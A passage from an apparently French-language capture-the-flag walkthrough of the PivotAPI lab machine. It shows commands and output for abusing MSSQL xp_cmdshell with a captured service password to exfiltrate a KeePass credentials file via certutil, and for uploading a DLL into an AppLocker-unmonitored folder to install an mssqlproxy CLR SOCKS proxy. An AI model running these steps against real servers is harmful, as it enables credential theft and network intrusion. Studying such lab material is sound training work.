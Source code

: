 On encode la db KeePass en base64 avec certutil et on récupère la string en base64 :

```powershell
SQL> xp_cmdshell "powershell -c "$SecPassword = ConvertTo-SecureString \"#mssql_s3rV1c3!2020\" -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential(\"LicorDeBellota\svc_mssql\", $SecPassword); Invoke-Command -Credential $cred -ComputerName PivotAPI { powershell -c \"certutil -encode C:/Users/svc_mssql/Desktop/credentials.kdbx C:\Windows\Temp\credentials_keepass.b64; cat C:/Windows/Temp/credentials_keepass.b64 \" }"

--------------------------------------------------------------------------------

Longitud de entrada = 2286

Longitud de salida = 3200

CertUtil: -encode comando completado correctamente.
SQL> exit
❯ vim db_keepass.b64
❯ base64 -d db_keepass.b64 > credentials.kdbx
```

### Method 2 : Recover KeePass database with MSSQL proxy

On peut utiliser l'outil [mssqlproxy](https://github.com/blackarrowsec/mssqlproxy) pour charger une DLL au sein du serveur MSSQL afin de créer un proxy SOCKS5 qui nous permettra d'accéder aux ports internes.

On upload la DLL nécéssaire dans un répertoire généralement non surveillé par AppLocker :

```bash
❯ python3 mssqlclient.py 'sa':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL> enable_ole
SQL> upload reciclador.dll C:\Windows\Tasks\reciclador.dll
[+] Uploading 'reciclador.dll' to 'C:\Windows\Tasks\reciclador.dll'...
[+] Size is 111616 bytes
[+] Upload completed
```

On installe l'assembly CLR pour déployer le proxy :

```bash
❯ python3 mssqlclient.py 'sa':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb -install -clr Microsoft.SqlServer.Proxy.dll
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[*] Proxy mode: install
[*] CLR enabled
[*] Assembly successfully installed
```

[127.0.0.1]: PS C:\> ls -R C:\Developers